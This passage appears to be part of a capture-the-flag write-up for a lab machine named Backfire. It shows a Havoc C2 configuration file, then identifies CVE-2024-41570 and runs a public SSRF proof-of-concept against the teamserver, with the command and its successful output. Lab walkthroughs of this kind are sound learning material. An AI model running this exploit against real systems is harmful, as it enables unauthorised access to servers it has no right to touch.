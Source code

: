 ```
    }
}

Demon {
    Sleep = 2
    Jitter = 15

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\notepad.exe"
        Spawn32 = "C:\\Windows\\SysWOW64\\notepad.exe"
    }
}

Listeners {
    Http {
        Name = "Demon Listener"
        Hosts = [
            "backfire.htb"
        ]
        HostBind = "127.0.0.1"
        PortBind = 8443
        PortConn = 8443
        HostRotation = "round-robin"
        Secure = true
    }
}
```

These indicate that `Havoc C2` is running on the box

The following CVE: `CVE-2024-41570` revealed this PoC:
[HavocC2 SSRF PoC](https://github.com/chebuya/Havoc-C2-SSRF-poc/blob/main/exploit.py)

from this blog post:
[Unauthenticated SSRF on Havoc C2 teamserver via spoofed demon agent](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/)

based on information in the files we find out that the teamserver running on `127.0.0.1:40056`

Let's run the provided PoC:

```
python3 ssrf.py -t https://backfire.htb -p 40056 -i 127.0.0.1
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
HTTP/1.1 307 Temporary Redirect
Location: /havoc
Date: Sun, 19 Jan 2025 06:57:32 GMT
Content-Length: 0
Connection: close
```
